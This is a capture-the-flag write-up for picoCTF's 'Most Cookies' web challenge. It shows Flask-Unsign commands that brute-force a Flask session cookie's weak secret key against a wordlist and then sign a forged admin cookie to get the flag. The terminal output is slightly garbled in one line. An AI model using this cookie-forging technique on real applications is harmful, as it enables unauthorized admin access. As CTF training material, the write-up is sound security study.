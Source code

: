 # Challenge: [Most Cookies](https://play.picoctf.org/practice/challenge/177)
150 Points
# Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/26760321c25c9659050a37a707247690/server.py) 
[http://mercury.picoctf.net:52134/](http://mercury.picoctf.net:52134/)
# Solution
Given that the name of challenge, I have to manipulate the cookie. Let's analyze it using BurpSuite.

<img src='./media/1234.png' />

One part of it, when decoded, reveals the content I entered **snickerdoodle**.

In the source code, to tamper I need to enter **{"very_auth":"admin"}** for the first part in cookie

<img src='./media/1235.png' />

The program is using Flask to create cookies, and the secret key part is taken from a list available in the code.

<img src='./media/4654.png' />

The flow is cleared, I use Flask-Unsign to decode the cookie taken from BurpSuite to discover the secret key and encode it again with the new content.

```sh
┌──(kali㉿kali)-[~/picoCTF/Web/Most_Cookies]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zd9GlA.6kwWqcpRAFZb6pwCspxB5p1hQjY" -w wordlist 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
                                                                                                       
┌──(kali㉿kali)-[~/picoCTF/Web/Most_Cookies]
└─$ flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret "peanut butter"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Zd9Hdg.iX08y-4CQjvxXQwvuOnGT2v3kws
```

Send it in the Repeater to get the flag.

<img src='./media/2823.png' />